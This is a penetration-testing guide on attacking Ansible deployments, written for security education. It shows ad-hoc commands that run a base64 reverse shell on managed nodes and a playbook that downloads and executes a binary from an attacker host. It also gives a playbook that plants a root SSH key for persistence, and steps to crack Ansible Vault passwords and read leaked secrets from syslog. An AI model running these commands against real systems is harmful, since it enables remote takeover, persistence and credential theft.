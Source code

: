 # Ansible Pentesting

## Theory

[Ansible](https://docs.ansible.com/) is a powerful configuration management and automation tool widely used in DevOps to manage servers and deploy applications. However, its design and features can also make it a potential attack vector if improperly configured or abused.

Ansible operates on a "push" model, where the Ansible controller executes Modules on registered "nodes". Key components include:

* **Inventory**: A list of managed nodes (targets), located on the controller server at `/etc/ansible/hosts`
* **Playbooks**: YAML files that define tasks and automation processes.
* **Modules**: Scripts used to perform specific actions (e.g., file operations, command execution).

In order to perform actions on managed nodes, a password for a node user must be stored on the controller, or the controller's Ansible account must be configured on it using SSH keys. This allows the controller to connect to the node and execute the desired modules.

## Practice

### Command Execution

{% hint style="danger" %}
The following methods are utilized from the Ansible Controller, requiring a user with the necessary privileges.
{% endhint %}

{% tabs %}
{% tab title="Ad-hoc Commands" %}
[Ad-hoc commands](https://docs.ansible.com/ansible/latest/command\_guide/intro\_adhoc.html) are simple shell commands to be run on one or more managed nodes in the Ansible inventory. They are used for one-time tasks and are not included in a playbook.

```bash
# On Ansible Controller
## Simply run
ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash"

## Run as sudo
ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```
{% endtab %}

{% tab title="Playbooks" %}
[Ansible Playbooks](https://docs.ansible.com/ansible/latest/playbook\_guide/playbooks\_intro.html) offer a repeatable, reusable way to run a sets of tasks on Ansible nodes. Playbooks are expressed in YAML format.

We can use Playbooks to execute a malicious script/binary on Ansible nodes.&#x20;

{% hint style="info" %}
The `hosts` field specifies the target hosts from the inventory on which the playbook will be executed. You can use:

* **Groups**: Specify a group of hosts defined in the inventory file.
* **Individual Hosts**: Target specific hosts by their names.
* **All**: Use "all" to run the playbook on every host listed in the inventory
{% endhint %}

#### Simple Execution

{% code title="evil.yml" %}
```yaml
- hosts: all
  tasks:
  become: yes # Delete this line if playbook should not be run as root
  - name: evil
    shell: "curl -o /tmp/evil.elf http://<ATTACKING_IP>/evil.elf && chmod +x /tmp/evil.elf && /tmp/evil.elf"
    async: 10
    poll: 0
```
{% endcode %}

Run the playbook:

```bash
ansible-playbook evil.yml
```

#### SSH Persistence

The following playbook acheive SSH persistence by adding a public key to the `/root/.ssh/authorized_keys` file

```yaml
---
- name: Add SSH key for persistence
  hosts: target_hosts
  become: yes
  tasks:
    - name: Ensure the .ssh directory exists
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root
        
    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root
      
    - name: Add SSH public key for persistence
      authorized_key:
        user: root
        state: present
        key: "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAr...your_key_here... user@hostname"  # Replace with your actual SSH public key

    - name: Ensure SSH service is enabled and running
      service:
        name: sshd
        state: started
        enabled: yes
```
{% endtab %}
{% endtabs %}

### Unsecured Credentials

if we are able to read Ansible playbooks, we may found sensitive data like secrets and hardcoded credentials.

{% tabs %}
{% tab title="Playbook Secrets" %}
We may find hardcoded credential in playbooks alongside the `become` directive, as it may allows Administratror to use SSH whithout keys.

```yaml
- hosts: all
  become: yes
  become_user: root
  vars:
    db_user: "admin"
    db_password: "password123"
```

Alternatively we may directly find hardcoded credentials in shell commands

```yaml
- name: MySQL_SHOW_DB
  hosts: target_servers
  become: yes
  tasks:
    - name: get db
      shell: |
        echo "Connecting to the database..."
        mysql -u admin -p'password123' -e "SHOW DATABASES;"
```
{% endtab %}

{% tab title="Vault Secrets" %}
[Ansible Vault ](https://docs.ansible.com/ansible/latest/vault\_guide/index.html)is a feature that allows users to encrypt sensitive data within playbooks. However, we may be able to decrypt the file with password or by cracking hash to retrieve password.

First check the file encrypted with Ansible Vault.

```bash
cat example.yml

# -- output --
$ANSIBLE_VAULT;1.1;AES256
62313365396662343061393464336163383764373764613633653634306231386433626436623361
6134333665353966363534333632666535333761666131620a663537646436643839616531643561
63396265333966386166373632626539326166353965363262633030333630313338646335303630
3438626666666137650a353638643435666633633964366338633066623234616432373231333331
6564
```

We can use **`ansible2john`** to generate the hash to make it crackable.

```bash
ansible2john example.yml > hash.txt
```

Then crack this hash using **John The Ripper** or **Hashcat**.

```bash
john --wordlist=wordlist.txt hash.txt
# or
hashcat -a 0 -m 16900 hash.txt wordlist.txt
```

After cracking and retrieving the passwrod, we can use it to decrypt the file as below.

```bash
ansible-vault decrypt example.yml --output decrypted.txt
```
{% endtab %}

{% tab title="Syslog Leakage" %}
When Ansible operates on a host, some modules will attempt to log their actions to `/var/log/syslog`. This log includes the module name and the arguments passed along to that command, which could include secrets or credentials.

{% hint style="info" %}
Some playbooks may mitigate the risk of sensitive data being logged in syslog by using the `no_log: true` option in tasks.&#x20;
{% endhint %}

We may therefore find sensitive data **on ansible nodes** by looking at the `/var/log/syslog` file.

```bash
cat /var/log/syslog
```
{% endtab %}
{% endtabs %}

### Weak Playbooks Permissions

If we discover a playbook on the Ansible controller with **write permissions** or can exploit vulnerabilities to gain such access, **we can modify the playbook to insert malicious tasks**. These tasks will then execute during the next run of the playbook, potentially allowing us to escalate privileges, exfiltrate data, or deploy additional backdoors.

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/" %}

{% embed url="https://medium.com/@pavithra_38952/protecting-your-secrets-with-ansible-cac601a1a5ab" %}

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible" %}
